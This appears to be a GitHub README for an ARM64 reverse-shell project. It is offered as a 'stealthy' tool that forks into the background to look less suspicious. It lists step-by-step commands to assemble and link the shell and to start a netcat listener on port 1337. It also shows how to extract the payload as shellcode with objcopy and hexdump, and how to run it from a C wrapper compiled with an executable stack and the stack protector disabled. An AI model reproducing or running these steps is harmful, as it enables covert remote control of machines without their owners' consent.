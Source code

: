 # ARM-Shellcode 🐚
ARM AARCH64 Reverse Shell.

## Capabilities
A small, stealthy, ARM64 reverse shell that utilizes `clone()`, similar to `fork()`, in order to spawn a child process and run in the background. Ultimately to look less suspicious.

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell+clone.o && ld -N arm-revshell+clone.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell+clone` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell+clone.s -o arm-revshell+clone.o && aarch-linux-gnu-ld -N arm-revshell+clone.o -o arm-revshell+clone`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell+clone` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell+clone arm-revshell+clone.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell+clone.bin > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


